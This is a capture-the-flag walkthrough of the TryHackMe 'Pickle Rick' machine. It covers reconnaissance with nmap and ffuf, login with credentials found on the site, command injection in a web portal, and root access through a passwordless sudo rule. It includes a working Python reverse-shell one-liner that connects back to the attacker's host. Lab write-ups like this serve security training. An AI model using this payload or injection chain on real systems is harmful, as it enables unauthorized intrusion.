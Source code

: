 ![image](https://user-images.githubusercontent.com/87468669/195387786-e9ce2227-d5d6-49f6-bd37-d49d61f7a761.png)

First we start with an nmap scan 

```
# Nmap 7.92 scan initiated Wed Oct 12 10:43:01 2022 as: nmap -sC -sV -T4 -oN quickmap.txt -Pn 10.10.154.17
Nmap scan report for 10.10.154.17
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 55:7b:41:a6:7d:c5:62:13:c5:c2:af:8c:25:ae:24:b1 (RSA)
|   256 5c:c7:f0:af:79:69:38:f7:b0:94:00:6f:f2:de:5f:ba (ECDSA)
|_  256 e7:1b:43:9d:09:5d:17:e2:98:a9:a8:e7:e8:cf:9d:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 12 10:43:31 2022 -- 1 IP address (1 host up) scanned in 29.40 seconds
```

Nice we got http and ssh ports open, let's enumerate port 80. First we open the IP on our browser

![image](https://user-images.githubusercontent.com/87468669/195388802-f27a32cb-2da7-47c9-afbd-56e2a7f69dac.png)

nice we git the homepage and it's all about rick burping, asking us to logon to his computer to find the last 3 ingredients for him to change back from a pickle. Let's check source page 

![image](https://user-images.githubusercontent.com/87468669/195389823-e6676dee-3149-4c09-898d-62e9f52ba725.png)

cool we got a username: R1ckRul3s, let's burst hidden directories 

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/THM/PickleRick]
└─$ ffuf -u "http://10.10.154.17/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .txt,.php,.phtml -fc 403 -t 40

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.154.17/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .txt .php .phtml 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

                        [Status: 200, Size: 1062, Words: 148, Lines: 38, Duration: 196ms]
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 178ms]
denied.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 168ms]
index.html              [Status: 200, Size: 1062, Words: 148, Lines: 38, Duration: 153ms]
login.php               [Status: 200, Size: 882, Words: 89, Lines: 26, Duration: 161ms]
portal.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 168ms]
robots.txt              [Status: 200, Size: 17, Words: 1, Lines: 2, Duration: 158ms]
robots.txt              [Status: 200, Size: 17, Words: 1, Lines: 2, Duration: 167ms]
:: Progress: [18456/18456] :: Job [1/1] :: 250 req/sec :: Duration: [0:01:29] :: Errors: 0 ::
```

let's check robots.txt

![image](https://user-images.githubusercontent.com/87468669/195395528-35a21d4d-6263-46ec-beb8-e8b4c37b55f2.png)

we got a text "Wubbalubbadubdub" 🤔 that might be a potential password, let's check portal.php

![image](https://user-images.githubusercontent.com/87468669/195395867-4b0e8c63-7d7e-4fda-b3c6-8ac3814a1311.png)

we got redirected to a login.php page, why don't we try login with the username:R1ckRul3s and the potential password:Wubbalubbadubdub 

![image](https://user-images.githubusercontent.com/87468669/195396196-bf3c406b-2e03-4177-bb83-09050b83881b.png)

great we logged in, let's try gain shell. on the portal.php we have a command panel, let's test for command injection 

![image](https://user-images.githubusercontent.com/87468669/195396609-7a200103-6d27-4d0d-8d19-cfb082ae497c.png)

great we have a command injection. let's put our reverse shell payload.

Reverse shell payload ready

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.12.222",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

ncat listner ready 

![image](https://user-images.githubusercontent.com/87468669/195397012-bbac32d7-ecea-4ad9-814d-93e83fa014b9.png)

let's inject our payload to the command panel.

![image](https://user-images.githubusercontent.com/87468669/195397185-e3af6ea8-c4db-4d4a-8483-cf949401cbf3.png)

check our ncat listener, boom we got shell

![image](https://user-images.githubusercontent.com/87468669/195398886-68c712ac-a7a3-49a3-8772-673aca49f5e0.png)

let's stabilize the shell

![image](https://user-images.githubusercontent.com/87468669/195399055-df8ae1a3-0d61-4345-b380-1b575dbb36e6.png)

let's escalate privs to root. By just trying `sudo -l` we got to see that User www-data may run (ALL) NOPASSWD: ALL as root without password on the box.

![image](https://user-images.githubusercontent.com/87468669/195399720-79f40ca2-bcf1-432d-85f7-1bf087b3aa22.png)

We are root!. let's locate the ingredients

```
root@ip-10-10-197-162:/var/www/html# cat Sup3rS3cretPickl3Ingred.txt 
[redacted]
root@ip-10-10-197-162:/var/www/html# 
root@ip-10-10-197-162:/var/www/html# 
root@ip-10-10-197-162:/var/www/html# cd /home/rick/
root@ip-10-10-197-162:/home/rick# 
root@ip-10-10-197-162:/home/rick# ls
second ingredients
root@ip-10-10-197-162:/home/rick# cat "second ingredients" 
[redacted]
root@ip-10-10-197-162:/home/rick# 
root@ip-10-10-197-162:/home/rick# cd /root/
root@ip-10-10-197-162:~# 
root@ip-10-10-197-162:~# ls
3rd.txt  snap
root@ip-10-10-197-162:~# cat 3rd.txt 
[redacted]
root@ip-10-10-197-162:~# 
root@ip-10-10-197-162:~# 

```

![image](https://user-images.githubusercontent.com/87468669/195400539-2f7e6bb3-78ac-47d5-a6dd-de491424e481.png)

We are done. hope you had fun😉
